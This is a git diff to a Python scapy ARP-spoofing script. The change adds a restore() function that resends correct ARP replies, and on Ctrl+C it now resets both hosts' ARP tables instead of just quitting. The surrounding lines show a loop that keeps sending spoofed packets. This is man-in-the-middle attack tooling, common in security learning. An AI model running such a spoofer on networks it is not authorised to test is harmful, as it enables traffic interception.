

modified

Changed region(s): [[0.0, 0.1493, 0.9958, 0.9254]]

diff --git a/ARP_Spoof/arp_spoof.py b/ARP_Spoof/arp_spoof.py
@@ -25,6 +25,13 @@ def spoof(target_ip, spoof_ip):
     scapy.send(packet, verbose=False)
 
 
+def restore(target_ip, spoof_ip):
+    target_mac = get_mac(target_ip)
+    spoof_mac = get_mac(spoof_ip)
+    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip, hwsrc=spoof_mac)
+    scapy.send(packet, verbose=False)
+
+
 args = get_args()
 count = 0
 try:
@@ -35,4 +42,6 @@ try:
         print(f'\r[+] Packets sent: {count}', end='')
         time.sleep(2)
 except KeyboardInterrupt:
-    print('\nCTRL + C Detected. Quitting Now.')
+    print('\nCTRL + C Detected. Restoring ARP Table...')
+    restore(args['target_ip'], args['spoof_ip'])
+    restore(args['spoof_ip'], args['target_ip'])
